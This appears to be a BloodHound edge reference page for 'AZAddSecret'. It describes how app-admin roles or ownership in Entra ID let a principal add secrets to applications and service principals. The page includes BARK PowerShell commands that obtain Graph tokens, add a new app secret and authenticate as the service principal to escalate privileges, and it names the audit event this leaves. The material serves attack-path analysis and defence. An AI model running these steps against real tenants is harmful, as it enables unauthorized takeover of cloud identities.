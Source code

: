 ```yaml
---
title: AZAddSecret
description: Azure provides several systems and mechanisms for granting control of securable objects within Entra ID, including tenant-scoped admin roles, object-scoped admin roles, explicit object ownership, and API permissions.
---
```


<Frame>
  <img noZoom src="/assets/image-2-1.png"/>
</Frame>

When a principal has been granted “Cloud App Admin” or “App Admin” against the tenant, that principal gains the ability to add new secrets to all Service Principals and App Registrations. Additionally, a principal that has been granted “Cloud App Admin” or “App Admin” against, or explicit ownership of a Service Principal or App Registration gains the ability to add secrets to that particular object.

## Abuse Info

There are several ways to perform this abuse, depending on what sort of access you have to the credentials of the object that holds this privilege against the target object. If you have an interactive web browser session for the Azure portal, it is as simple as finding the target App in the portal and adding a new secret to the object using the “Certificates & secrets” tab. Service Principals do not have this tab in the Azure portal but you can add secrets to them with the MS Graph API. No matter what kind of control you have, you will be able to perform this abuse by using BARK’s New-AppRegSecret or New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT associated with the principal that has the privilege to add a new secret to your target application. There are several ways to acquire a JWT. For example, you may use BARK’s Get-GraphTokenWithRefreshToken to acquire an MS Graph-scoped JWT by supplying a refresh token:

```bash
$MGToken = Get-GraphTokenWithRefreshToken -RefreshToken "0.ARwA6WgJJ9X2qk..." -TenantID "contoso.onmicrosoft.com"
```

Then use BARK’s New-AppRegSecret to add a new secret to the target application:

```bash
New-AppRegSecret -AppRegObjectID "d878..." -Token $MGToken.access_token
```
The output will contain the plain-text secret you just created for the target app:

```bash
New-AppRegSecret -AppRegObjectID "d878..." -Token $MGToken.access_token

Name              Value
----              -----
AppRegSecretValue odg8Q~...
AppRegAppId       4d31...
AppRegObjectId    d878...
```

With this plain text secret, you can now acquire tokens as the service principal associated with the app. You can easily do this with BARK’s Get-MSGraphToken function:

```bash
PS /Users/andyrobbins> $SPToken = Get-MSGraphToken `
-ClientID "4d31..." `
-ClientSecret "odg8Q~..." `
-TenantName "contoso.onmicrosoft.com"
PS /Users/andyrobbins> $SPToken.access_token
eyJ0eXAiOiJKV1QiLCJub...
```

Now you can use this JWT to perform actions against any other MS Graph endpoint as the service principal, continuing your attack path with the privileges of that service principal.

## Opsec Considerations

When you create a new secret for an App or Service Principal, Azure creates an event called “Update application - Certificates and secrets management”. This event describes who added the secret to which application or service principal.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/assign-roles-different-scopes](https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/assign-roles-different-scopes)